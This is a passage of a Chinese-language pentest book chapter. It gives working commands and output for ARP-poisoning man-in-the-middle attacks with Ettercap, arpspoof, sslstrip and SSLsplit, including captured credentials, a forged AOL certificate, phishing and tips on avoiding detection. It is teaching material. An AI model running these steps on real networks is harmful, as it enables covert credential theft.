

接下来，我们将选择适当的接口，在本例中为 `eth0`，因为它是我们在线的唯一接口：



菜单出现后，您将开始看到项目正在加载，最后会出现 `Starting Unified sniffing....` 消息。此时，该实用程序已准备就绪：



现在我需要设置我的目标。我需要进入 **Targets** 菜单，并选择 **Current** 目标。在此屏幕中，不应看到列出任何目标。然后我可以通过在 **Target 1** 部分点击 **Add** 来添加第一个目标。在我的例子中，这将是我的默认网关 `192.168.33.1`。在另一屏幕上，我们将添加要拦截的终端用户机器。在我的实验室中，这将是 `192.168.33.3`。设置完成后，我的屏幕如下所示：



现在我的目标都已设置好，我可以点击 Mitm 菜单，并选择 Arp Poisoning。系统会要求您选择什么参数。由于我们希望实现双向通信，我们将选择 Sniff remote connections，如以下屏幕截图所示：



此时，Ettercap 已完全准备就绪，我们应该会看到日志消息显示我们正在积极执行 ARP 欺骗攻击：



为了验证，我将运行可靠的 tcpdump 并确保我可以看到终端用户机器上正在浏览的网络流量：

```
19:49:59.186467 IP 23.78.176.170.80 > 192.168.33.3.57916: Flags [S.], seq 3316106661, ack 2549456198, win 28960, options [mss 1460,sackOK,TS val 371783389 ecr 994934950,nop,wscale 5], length 0
19:49:59.186477 IP 192.168.33.3.57916 > 23.78.176.170.80: Flags [.], ack 1, win 4117, options [nop,nop,TS val 994934975 ecr 371783389], length 0
19:49:59.187102 IP 192.168.33.3.57916 > 23.78.176.170.80: Flags [P.], seq 1:246, ack 1, win 4117, options [nop,nop,TS val 994934975 ecr 371783389], length 245: HTTP: GET /security/pki/certs/ciscoumbrella.cer HTTP/1.1
19:49:59.215710 IP 23.78.176.170.80 > 192.168.33.3.57916: Flags [.], ack 246, win 939, options [nop,nop,TS val 371783417 ecr 994934975], length 0
19:49:59.221707 IP 23.78.176.170.80 > 192.168.33.3.57916: Flags [.], seq 1:1449, ack 246, win 939, options [nop,nop,TS val 371783423 ecr 994934975], length 1448: HTTP: HTTP/1.1 200 OK
19:49:59.221713 IP 23.78.176.170.80 > 192.168.33.3.57916: Flags [P.], seq 1449:1531, ack 246, win 939, options [nop,nop,TS val 371783423 ecr 994934975], length 82: HTTP
19:49:59.221718 IP 192.168.33.3.57916 > 23.78.176.170.80: Flags [.], ack 1531, win 4069, options [nop,nop,TS val 994935009 ecr 371783423], length 0
```

当我需要停止测试时，我可以选择 Mitm | Stop Mitm Attack(s)。之后，您将看到此消息被记录。重要的是在完成时确保停止攻击，这样就不会因为让攻击长时间运行而让任何人察觉到您正在执行这些攻击。

现在我已经能够通过 CLI 使用 arpspoof 或通过 GUI 使用 ettercap 将我的主机置于内联位置，让我们来看看我们可以收集哪些信息。

## SSLStrip

在过去，我可以在前一步停止并仅运行 tcpdump 来收集我需要的任何网站凭据。然而，随着大多数网站转向 SSL，我们需要一种解密主机之间通信的方法，以便我能清楚地看到这些信息。这就是 SSLStrip 将允许我们实现的目标。


随着越来越多的网站从 HTTP 转向 HTTPS，拦截和解密的需求将变得越来越重要。仍然有很多网站仍在运行 HTTP。根据 Google 最近的一项调查，HTTPS 占到了流量的 30%。这很快将增加到 50% 以上。

SSLStrip 是一种攻击工具，利用中间人功能透明地查看 HTTPS 流量、劫持它，并向用户返回未加密的 HTTP 链接。希望在这里是终端用户不会注意到流量不再加密，并认为自己是安全的而输入敏感信息。然而，实际上，`sslstrip` 正在收集所有这些敏感信息。让我们在实验室中设置并测试它。

在启动 `sslstrip` 之前，需要执行一些维护步骤。我们需要一种方法将通过 ARP 欺骗进入该设备的流量转发给 `sslstrip` 以执行其工作。为此，我将使用 iptables 将传入的 SSL 重定向到 `sslstrip` 将监听的端口。语法如下：

```
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port $LISTEN-PORT
```

一旦重定向全部设置好，我就可以启动 `sslstrip` 并确保指定在 iptables 中用于重定向的端口。您指定的日志文件将是所有收集信息最终存放的位置。

这就是我在实验室中的设置方式。首先，我开始将流量重定向到 `sslstrip`，然后在正确的端口上启动 `sslstrip`：

```bash
root@pi-kali:~# iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
root@pi-kali:~# sslstrip -l 8080

sslstrip 0.9 by Moxie Marlinspike running...
```

接下来，我设置 arpspoof 通过欺骗以下屏幕截图所示的默认网关来进入流量，以便主机在发出时将流量发送给我：

```
root@kali:~# arpspoof -i eth0 -t 192.168.33.3 192.168.33.1
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae 3c:15:c2:dc:2:b4 0806 42: arp reply 192.168.33.1 is-at 0:c:29:f8:7b:ae
```

在我欺骗默认网关的同时，我也欺骗主机 IP 地址到默认网关，以便将返回流量发送给我：

```
root@kali:~# arpspoof -i eth0 -t 192.168.33.1 192.168.33.3
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
0:c:29:f8:7b:ae e0:55:3d:77:4:b5 0806 42: arp reply 192.168.33.3 is-at 0:c:29:f8:7b:ae
```

现在 sslstrip 已全部设置好，我只需要拦截一些流量并开始获取信息。根据其他之前的情报，我将拦截来自 192.168.33.xxx 的流量。我将像上一节那样设置我的 ARP 欺骗，并让我的设备位于该终端用户和互联网之间。一旦就位，我可以 tail 日志文件，看看是否能获得任何有用的信息：

```
root@pi-kali:~# more sslstrip.log
2017-02-10 02:37:33,616 SECURE POST Data (my_screenname.aol.com):
sitedomain=&lang=en&locale=us&authlev=1&siteState=&isSiteStateBase64=false&isSiteStateEncoded=false&mcState=initialized&uitype=std&use_am0=&offerId=&seamless=&regPromoCode=&doSSL=&redirectType=&chk=false&isoDP=&usrId=0uilhcJibopAicla loginId=pentester%40gmail.com
password=CanYouSeeMyPassword rememberMe=off
```


正如你所见，我确实在日志文件中获取了一些凭据。然而，最终用户应该注意的是，浏览器不再安全。地址栏中没有锁图标。如果我关闭 MiTM 攻击和 sslstrip，你会再次看到锁图标：


攻击结束后在同一站点：


## 使用 SSLsplit 拦截 SSL 流量

SSLsplit 与 sslstrip 类似；在此，你可以拦截 SSL 流量以获取凭据和其他你希望保持机密的信息。然而，主要区别在于 SSLsplit 使用我生成给最终用户的证书。这样，连接在最终用户端仍会保持 SSL，而不像 sslstrip，会以 HTTP 连接返回给最终用户。唯一需要注意的是，你创建的证书需要放入用户的受信任证书存储中，这样用户就不会看到不受信任的证书消息。

我必须做的第一件事是创建证书。这里重要的是为我想要拦截的站点创建证书。


并非必须为用户创建与要拦截的站点匹配的证书。然而，如果你选择另一个站点，用户会看到站点不匹配错误，并且如果他们查看证书，会发现它是由另一个站点颁发的。你始终希望尽可能多地隐藏最终用户的信息。

为了为我将进行 MiTM 攻击的站点创建证书，我将从 CLI 运行以下命令：




你会注意到我指定了一个通配域名 (*.aol.com)。请确保对你想要拦截的域名进行研究。在这种特定情况下，在访问主站点后，登录时会重定向到不同的子域名。此证书将涵盖所有这些域名。

一旦证书全部设置好，你需要一种机制将其放到最终用户的机器上。在本实验中，我们将假设证书已在最终用户机器上。如果由于某种原因没有，他们仍然可以登录站点并允许我们窃取其凭据；用户只会收到证书错误。

我们需要对 `sysctl` 进行一些更改，以及 iptables 进行一些重定向。类似于 `sslstrip` 和 `arpspoof`，我们需要确保数据包在线路上被转发。根据之前的配置，这应该已经设置好了，但如果没有，这里是我将使用的命令：

```
sysctl -w net.ipv4.ip_forward=1
```

接下来，我将把计划监听的任何端口重定向到我将运行 `sslsplit` 的端口。你可以重定向 HTTP、SMTP over SSL 或 FTP 等。我将拦截 HTTPS，因此我将重定向 8443：

```
iptables -t nat -F
```

```
iptables -t nat -A PREROUTING -p tcp --dport 443 -j REDIRECT --to-ports 8443
```

由于我的准备工作已全部完成，我现在可以开始运行 `sslsplit`。有很多选项可供选择。我通常运行 -D 以调试模式获取屏幕上的更多信息。我还指定日志文件、监狱目录以及用于单独文件的日志目录。我还指定密钥和证书，设置 SSL 以及监听地址和端口。以下是我的 CLI 输出：

```
root@pi-kali:~# sslsplit -D -l connections.log -j /tmp/sslsplit/ -S logdir/ -k aol.key -c aol.crt ssl 0.0.0.0 8443
Generated RSA key for leaf certs.
SSLSplit 0.5.0 (built 2016-12-26)
Copyright (c) 2009-2016, Daniel Roethlisberger <daniel@roe.ch>
http://www.roe.ch/SSLSplit
Build info: V:FILE
Features: -DHAVE_NETFILTER
NAT engines: netfilter* tproxy
netfilter: IP_TRANSPARENT SOL_IPV6 !IPV6_ORIGINAL_DST
Local process info support: no
compiled against OpenSSL 1.1.0c 10 Nov 2016 (1010003f)
was linked against OpenSSL 1.1.0c 10 Nov 2016 (1010003f)
OpenSSL has support for TLS extensions
TLS Server Name Indication (SNI) supported
OpenSSL is thread-safe with THREADID
Using SSL_MODE_RELEASE_BUFFERS
SSL/TLS protocol availability: tls10 tls11 tls12
SSL/TLS algorithm availability: RSA DSA ECDSA DH ECDH EC
OpenSSL option availability: SSL_OP_NO_COMPRESSION SSL_OP_NO_TICKET SSL_OP_ALLOW_UNSAFE_LEGACY_RENEGOTIATION SSL_OP_NON_RENEGOTIATION SSL_OP_TLS_ROLLBACK_BUG
compiled against libevent 2.0.21-stable
was linked against libevent 2.0.21-stable
4 CPU cores detected
SSL/TLS protocol: negotiate
proxyspecs:
- [0.0.0.0]:8443 ssl netfilter
Loaded CA: '/C=US/ST=New York/L=New York/O=AOL/OU=Domain Name/CN=*.aol.com/emailAddress=domains@aol.com'
Created self-pipe [r=4,w=5]
Created child-pipe [r=6,w=7]
Created socketpair 0 [p=8,c=9]
Created socketpair 1 [p=10,c=11]
Created socketpair 2 [p=12,c=13]
Using libevent backend 'epoll'
Event base supports: edge yes, O(1) yes, anyfd no
Received privsep req type 03 sz 5 on srv sock 8
Received privsep req type 00 sz 1 on srv sock 8
Inserted events:
Received privsep req type 00 sz 1 on srv sock 12
0x561b1700 [fd 7] Read Persist
0x561aef4c [fd 8] Read Persist
0x561b15f0 [fd 6] Read Persist
0x561b1750 [fd 3] Signal Persist
0x561b1f00 [fd 1] Signal Persist
0x561b2000 [fd 2] Signal Persist
0x561b2100 [fd 13] Signal Persist
0x561b2240 [fd 10] Signal Persist
Initialized 8 connection handling threads
Started 8 connection handling threads
Starting main event loop.
```

现在我已经让 sslstrip 运行并监听，我只需要向其发送流量即可。我将为此使用 arpspoof，但也可以使用 Ettercap。这将以与本章前面执行 ARP 欺骗攻击相同的方式完成。

我现在应该会看到 SSL 流量向我而来。为了让用户点击 AOL，有很多不同的选项，其中一些我已经在之前的章节中介绍过。在我的情况下，我将向用户发送钓鱼邮件，迫使他们点击该链接。

一旦用户点击链接并登录到站点，我可以检查我的日志文件，看看我是否确实通过 MiTM 攻击收集合了他们的凭据。以下是包含信息的日志条目：



以下是用户浏览器的截图。由于我创建的证书在受信任的密钥链中，他们仍然可以看到锁图标。然而，如果你查看证书，你会发现它不是正确的证书：



## 摘要

现在我们到了第 5 天的结束，我们可以回顾一下我们讨论的一些主题。本章重点介绍了流量嗅探技术和欺骗。我们讨论了嗅探器的重要性，并探索了各种类型的嗅探器，例如 tcpdump、Windump 和 Wireshark。然后我们转向了各种欺骗攻击。任何欺骗攻击和 MiTM 攻击的基础都是 ARP 欺骗。讨论了 arpspoof 和 Ettercap 等工具，因为两者都是欺骗流量的可行选项。最后，由于越来越多的流量转向 SSL，而任何值得抓取的流量都是安全的，我们讨论了从这些流量中获取信息的两种方法。这些方法包括 sslstrip 和 SSLsplit。

在下一章中，我们将探索基于密码的攻击。这将包括围绕彩虹表和密码列表的讨论，以及用于此类攻击的各种工具。我们还将涉及社会工程实验的重要性，因为用户通常是安全中的薄弱环节。
